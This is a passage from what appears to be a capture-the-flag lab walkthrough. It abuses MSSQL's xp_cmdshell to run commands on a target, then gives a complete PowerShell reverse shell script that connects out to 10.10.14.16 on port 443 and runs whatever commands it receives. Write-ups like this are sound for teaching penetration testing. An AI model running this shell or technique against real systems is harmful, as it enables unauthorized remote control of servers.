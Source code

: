 ``` shell
  
  SQL> EXEC sp\_configure 'xp\_cmdshell', 1
  
  \[\*\] INFO(ARCHETYPE): Line 185: Configuration option 'xp\_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
  
  SQL> reconfigure;
  
  SQL> **xp\_cmdshell "whoami"**
  
  output
  
  --------------------------------------------------------------------------------
  
  **archetype\\sql\_svc**
  
  NULL
  
  SQL>
  --------------------------------------------------------------------------------------------------------------------------------------
```
Let's attempt to get a proper shell, and proceed to further enumerate
the system. We can save the PowerShell reverse shell below as
**shell.ps1.**
``` shell
  ---------------------------------------------------------------------------------------------------------------
  **\#shell.ps1**
  
  \$client = New-Object System.Net.Sockets.TCPClient("10.10.14.16",443);
  
  \$stream = \$client.GetStream();
  
  \[byte\[\]\]\$bytes = 0..65535|%{0};
  
  while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0)
  
  {;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);
  
  \$sendback = (iex \$data 2>&1 | Out-String );
  
  \$sendback2 = \$sendback + "\# ";
  
  \$sendbyte = (\[text.encoding\]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);
  
  \$stream.Flush()};
  
  \$client.Close()
  ---------------------------------------------------------------------------------------------------------------
```
Next, stand up a mini webserver in order to host the file. We can use
Python.
